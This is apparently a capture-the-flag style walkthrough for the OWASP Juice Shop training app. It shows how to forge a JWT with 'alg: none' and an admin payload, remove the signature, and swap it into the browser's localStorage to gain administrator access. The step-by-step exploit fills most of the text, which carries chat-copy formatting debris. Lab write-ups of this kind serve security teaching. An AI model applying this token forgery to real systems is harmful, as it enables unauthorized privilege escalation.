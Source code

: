 ### 🔹 1. Login as a Normal User

Use credentials like:
test@local.sh / 123456

css
Copy
Edit

### 🔹 2. Extract the JWT Token

In browser console:
```js
localStorage.getItem('token');
🔹 3. Decode the Token
Use https://jwt.io

🔹 4. Modify JWT Header and Payload
Set header:

json
Copy
Edit
{
  "alg": "none",
  "typ": "JWT"
}
Set payload:

json
Copy
Edit
{
  "email": "admin@juice-sh.op",
  "role": "admin"
}
Remove the signature completely (leave only Header.Payload.).

Final format:

php-template
Copy
Edit
<base64Header>.<base64Payload>.
🔹 5. Replace Token in Browser
In DevTools Console:

js
Copy
Edit
localStorage.setItem("token", "forged_token_here.");
🔹 6. Refresh the Page
Visit:

bash
Copy
Edit
http://localhost:3000/#/administration
You should now have admin access.

✅ Success Criteria
Access to admin dashboard

Scoreboard shows ✅ “Login with administrator account”
```